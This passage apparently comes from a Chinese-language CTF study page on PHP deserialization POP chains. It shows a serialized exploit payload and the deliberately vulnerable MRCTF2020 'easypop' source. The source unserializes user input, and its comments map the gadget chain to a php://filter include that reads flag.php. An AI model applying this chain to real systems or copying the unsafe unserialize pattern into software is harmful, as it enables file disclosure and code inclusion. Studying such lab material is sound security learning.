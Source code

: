 payload`O:5:"DemoA":1:{s:1:"a";O:5:"DemoB":1:{s:1:"a";O:5:"DemoC":1:{s:1:"a";O:5:"DemoD":1:{s:1:"b";O:5:"DemoE":1:{s:1:"a";O:7:"getflag":0:{}}}}}}`

### 样例3

MRCTF2020 easypop

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;//php://filter/read=convert.base64-encode/resource=flag.php
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;//Show()
    public $str;//Test()
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;//Test::__get()
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {//$this->source=Show(),在preg_match时调用__toString
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;//Modifier()
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;//Modifier::__invoke()
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```
